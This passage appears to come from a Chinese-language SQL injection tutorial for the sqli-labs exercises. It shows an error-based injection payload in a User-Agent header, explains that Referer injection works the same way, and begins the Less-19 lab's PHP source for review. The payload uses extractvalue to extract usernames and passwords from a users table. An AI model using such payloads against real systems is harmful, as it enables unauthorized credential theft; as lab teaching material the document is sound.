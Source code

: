 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' and extractvalue(0x7e, concat(0x7e, (select concat(username,':',password) from users limit 1,1))), '2', 3)#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606230637531.png" alt="image-20230606230637531" style="zoom:50%;" />

## POST注入-Referer注入

### 注入原理

与User-Agent注入原理一样，操作也一样，只是注入的地方不同

#### 源码审计

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    <title>Less-19 Header Injection- Referer- Error Based- string</title>
</head>

<body bgcolor="#000000">

<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"> Welcome&nbsp;&nbsp;&nbsp;<font
            color="#FF0000"> Dhakkan </font><br></div>
<div align="center"
     style="margin:20px 0px 0px 510px;border:20px; background-color:#0CF; text-align:center;width:400px; height:150px;">
    <div style="padding-top:10px; font-size:15px;">


        <!--Form to post the contents -->
        <form action="" name="form1" method="post">

            <div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
                <input type="text" name="uname" value=""/></div>

```